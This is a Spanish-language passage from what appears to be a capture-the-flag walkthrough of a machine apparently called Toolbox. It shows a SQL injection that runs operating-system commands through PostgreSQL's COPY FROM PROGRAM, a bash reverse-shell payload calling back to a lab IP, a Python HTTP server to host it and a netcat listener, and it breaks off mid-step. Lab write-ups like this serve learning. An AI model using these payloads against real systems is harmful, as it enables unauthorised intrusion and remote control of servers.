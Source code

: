 He probado comandos de `linux` y de `windows`, cuando uso `comandos` de `linux` no da error pero cuando uso `comandos` de `windows` si que da `error`, lo que significaría que estamos `ejecutando` `comandos` en el `docker`

![](/assets/img/Toolbox/image_6.png)

```
username=test';COPY+cmd_exec+FROM+PROGRAM+'which curl';--+-+&password=test
```

## Intrusión

Vamos a crearos un archivo llamado `shell` con este contenido en su interior

```
bash -i >& /dev/tcp/10.10.16.16/9993 0>&1
```

En el `mismo directorio` donde nos hemos `creado` este `archivo` nos vamos a montar un `servidor http`

```
# python -m http.server 80
```

Nos ponemos en `escucha` con `netcat` por el puerto `9993`

```
# nc -nlvp 9993
```

Nos mandamos un `shell` a nuestro equipo
